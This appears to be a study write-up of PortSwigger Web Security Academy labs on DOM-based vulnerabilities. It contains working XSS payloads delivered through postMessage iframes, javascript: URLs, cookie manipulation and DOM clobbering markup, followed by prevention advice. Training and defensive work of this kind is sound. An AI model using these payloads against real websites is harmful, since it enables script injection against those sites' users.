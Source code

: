 # DOM-based vulnerabilities

The DOM is a browser representation of page elements, and JavaScript can securely or insecurely manipulate it.

## Lab: DOM XSS using web messages


The code:

```
window.addEventListener('message', function(e) {
                            document.getElementById('ads').innerHTML = e.data;
                            })

```

### What’s happening:

- The page listens for messages sent to it via postMessage or other frames/windows.

- Whatever e.data contains is directly inserted into the DOM via innerHTML without sanitization.

- If an attacker can send a crafted message to the page, they can inject arbitrary HTML/JS.

### Why it’s vulnerable
```
- innerHTML interprets input as HTML, so <script> or event handlers (like onerror) will execute.

- The developer has not validated origin (i.e., e.origin) or sanitized e.data.
```

### Attack Steps
- Identify the vulnerable listener:

  - Look for window.addEventListener('message', ...) in JS.

  - Check if the callback uses innerHTML or document.write with untrusted data.

- Verify there’s no origin check:
   ```
   if (e.origin !== "https://trusted-site.com") return;
   If missing → vulnerable.
   ```
- Craft a malicious message to exploit:
	```
	window.postMessage('<img src=x onerror=alert(1)>', '*');
    '*' sends to any origin.
    The payload uses an event handler (onerror) to trigger JavaScript.
  
    ```


### Real-World Exploit
- If you can open the target page in an iframe or another tab, you can inject:

```

<iframe src="https://victim.com"></iframe>
<script>
    // Wait until iframe loads, then send payload
    window.frames[0].postMessage('<img src=x onerror=alert(document.domain)>', '*');
</script>
```

```
<iframe src="https://vitim.com/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
```


### Fix
- Validate origin:
```
if (e.origin !== "https://trusted-site.com") return;
```
- Sanitize data (e.g., DOMPurify) before inserting into the DOM:
```
document.getElementById('ads').innerHTML = DOMPurify.sanitize(e.data);
```

- Avoid using innerHTML unless necessary — use textContent for plain text.

<hr>

## Lab: DOM XSS using web messages and a JavaScript URL


Analysis :
 - Find : addEventListener
 - window.postMessage("javascript:alert(1);//https://abc.com","*")
```
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//https:bing.com','*')">
```


## Lab: DOM XSS using web messages and JSON.parse

Analysis : The SCRIPT
  - Find : addEventListener
```
//Testing Payload 
window.postMessage(
    JSON.stringify({
        type: "load-channel",
        url: "javascript:alert(document.domain)"
    }),
    "*"
);
```

```
<iframe src=https://0acd00030425513d807c034e00090016.web-security-academy.net/ onload='this.contentWindow.postMessage(`{"type":"load-channel","url":"javascript:print()"}`,"*")'>


<iframe src=https://vul.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```

## Lab: DOM-based open redirection

Analysis :
```
<a href='#' onclick='returnURL' = /url=https?:\/\/.+)/.exec(location); if(returnUrl)location.href = returnUrl[1];else location.href = "/"'>Back to Blog</a>
```

  - The url parameter contains an open redirection vulnerability that allows you to change where the "Back to Blog"

payload : 

```
https://YOUR-LAB-ID.web-security-academy.net/post?postId=4&url=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/
```

<hr>

## Lab: DOM-based cookie manipulation

Analysis :  &'><script>alert(1)</script>
payload : 

```
<iframe src="https://target.web.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://target.web.net';window.x=1;">
```
<hr>

## Lab: Exploiting DOM clobbering to enable XSS

```
<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">
```


## Lab: Clobbering DOM attributes to bypass HTML filters


Ananlysis :  

```
Paste this in comment postId=3:  

<form id=x tabindex=0 onfocus=print()><input id=attributes>

Payload : 

       <iframe src=https://YOUR-LAB-ID.web-security-academy.net/post?postId=3 onload="setTimeout(()=>this.src=this.src+'#x',500)">

```


## How to prevent DOM-Based Vulnerabilities:

- Avoid using untrusted data directly in dangerous DOM sinks (e.g., innerHTML, eval, document.write, event handler attributes, location, etc.).

- Validate input with a whitelist – only allow known safe values or patterns.

- Sanitize or encode output based on the context:

    - HTML encoding for HTML contexts.

    - JavaScript encoding for script contexts.

    - CSS encoding for style contexts.

    - URL encoding for links or parameters.

- Use well-tested security libraries (e.g., DOMPurify, OWASP Java Encoder) instead of writing your own sanitizer/encoder.

- Protocol restrictions – block dangerous URI schemes (javascript:, data:, cid:) in URLs from untrusted sources.

- Implement defense-in-depth – combine validation, sanitization, Content Security Policy (CSP), and strict type checks.

- Never trust DOM-created globals – avoid patterns like window.varName || fallback without validation to prevent DOM clobbering.


<hr>

## That packs in:

- Validate → Whitelist input

- Sanitize → Clean dangerous parts

- Encode → Context-specific output encoding

- Never Trust → Any untrusted DOM/URL data

- Always Restrict → Protocols, globals, sinks

- Layer Defenses → CSP, type checks, libraries

